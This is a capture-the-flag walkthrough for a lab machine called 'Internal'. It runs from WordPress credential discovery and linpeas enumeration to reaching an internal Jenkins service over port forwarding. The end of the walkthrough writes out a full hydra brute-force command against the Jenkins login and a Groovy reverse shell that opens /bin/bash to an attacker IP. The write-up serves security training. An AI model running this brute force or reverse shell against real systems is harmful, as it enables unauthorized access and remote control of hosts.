 Now we'll start to enumerate the machine in order to find a pottential privilege escalation

In the path `/var/www/html/wordpress` we foundthe wp-config.php file with has explicit credentials of the SQL database, if we go to the path that we discover in the enumeration state and probe those credentials we gain access to the phpmyadmin site


![11]

![12]

But we couldn't retrieve more information about the new machine user that we found `aubreanna`

The only value information that I retrieve is that this machine is running a web server with a login panel in the port 8080

After enumerate the machine manually, I decided to use linpeas to check all the resources 

Finally after checking kernel exploits, phpmyadmin default passwords....I found a txt in opt path

![13]

![14]

Finally we get access as aubreanna user

Checking aubreanna home path we found the user.txt flag and also a jenkins.txt flag that tell us the following information:

```
aubreanna@internal:~$ cat jenkins.txt  Internal Jenkins service is running on 172.17.0.2:8080
```

As we did for example in DailyBugle machine, we will use a local port forwarding technique to view this service in our local machine

```

```

Afer doing that we found a Jenkins login panel 

![15]


Since we have 2 potential users we'll try to do a brute force atack with hydra, first trying the admin user

```
 hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/login?from=%2F:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```


After a long time waiting, finally we get the admin credentials `spongebob` for the `admin` user, those credentials give us access to the admin panel of Jenkins, as in Alfred machine we'll try the same payload to get initial access to this machine

```
String host="10.18.59.189";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
                     while(pe.available()>0)so.write(pe.read());
                     while(si.available()>0)po.write(si.read());
                     so.flush();po.flush();Thread.sleep(50);
                     try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
